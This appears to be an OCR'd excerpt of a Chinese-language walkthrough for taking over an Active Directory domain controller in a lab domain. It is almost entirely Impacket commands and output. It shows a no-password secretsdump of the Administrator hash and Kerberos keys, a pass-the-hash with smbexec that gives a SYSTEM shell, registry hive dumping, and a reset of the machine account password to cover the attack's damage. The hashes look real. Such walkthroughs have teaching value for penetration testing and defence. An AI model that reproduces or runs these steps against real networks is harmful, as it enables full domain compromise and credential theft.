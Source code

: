 ```
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -no-pass -just-dc-user administrator blackops.local/dc\$@192.168.0.56

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:d15fdea760f725c19d15c595230fe937:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:ac267a16c8b0ca49d39c55fa27b33a9d7f837140bc29fda4e671cbd13fac35a3
Administrator:aes128-cts-hmac-sha1-96:428baac078e5c2afd3d60ad38ef8ebe4
Administrator:des-cbc-md5:c7200bbc3b04e6e0
[*] Cleaning up...

4.PTH攻击

python3 /usr/share/doc/python3-impacket/examples/smbexec.py blackops.local/administrator@192.168.0.56 -hashes :d15fdea760f725c19d15c595230fe937 -dc-ip 192.168.0.56

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>whoami
nt authority\system

5.恢复密码

在攻击成功之后为防止脱域还需恢复密码

reg save HKLM\SYSTEM system.save
reg save HKLM\SAM sam.save
reg save HKLM\SECURITY security.save

通过sam.save security.save system.save 等文件获得原域控机器上的hash值,用于恢复密码:

python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -system system.save -security security.save LOCAL

$MACHINE.ACC:plain_password_hex:a2219c976d6f359942dd0d3cb718711970f6701ea5add161881958ab7be871a2e081a2ea761278722133487efc67a7cf16e255187472e60971e731659fb76ba39f9bcd0009e55243fe23a8282712c69ca5f65240f0961e7243438ae6e92870eb68ebcfe0c70aad68fc598806ab8d8bac64081311c360ee4c2f35d85793ac2e5c48b2045004515398f8239909893ba7a48a01241cf30b536cec1f2df981f4fb6a59ab2ec44ccadb3c72f9307c1ea12e9585c4af5719f3f1224d210ee7619a46b048bf6f6623ba86d891dbe542930e0727ee059359b8c7b762f7138602588bbd1648d61e347091118989137f8159f07741

恢复密码

python3 restorepassword.py blackops.local/dc@dc -target-ip 192.168.0.56 -hexpass a2219c976d6f359942dd0d3cb718711970f6701ea5add161881958ab7be871a2e081a2ea761278722133487efc67a7cf16e255187472e60971e731659fb76ba39f9bcd0009e55243fe23a8282712c69ca5f65240f0961e7243438ae6e92870eb68ebcfe0c70aad68fc598806ab8d8bac64081311c360ee4c2f35d85793ac2e5c48b2045004515398f8239909893ba7a48a01241cf30b536cec1f2df981f4fb6a59ab2ec44ccadb3c72f9307c1ea12e9585c4af5719f3f1224d210ee7619a46b048bf6f6623ba86d891dbe542930e0727ee059359b8c7b762f7138602588bbd1648d61e347091118989137f8159f07741
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] StringBinding ncacn_ip_tcp:192.168.0.56[49678]
Change password OK
```
